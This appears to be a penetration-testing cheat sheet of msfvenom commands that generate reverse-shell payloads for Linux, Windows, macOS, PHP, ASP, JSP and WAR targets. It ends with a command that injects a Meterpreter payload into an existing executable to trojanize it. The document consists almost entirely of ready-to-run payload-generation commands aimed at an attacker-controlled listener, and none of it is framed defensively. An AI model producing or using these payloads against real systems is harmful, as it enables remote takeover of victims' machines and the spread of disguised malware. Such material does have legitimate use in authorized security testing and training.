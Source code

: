 ## Linux ELF binary
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

## Windows EXE binary 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

### 32 Bit
- `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe`

### 64Bit
- `msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe`
    
## Windows Service
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe`
    
## Mac
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
    
## PHP 
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php`

> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`    

## JSP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
    
## WAR
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
    
## Inject payload into an existing exe file
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>` 
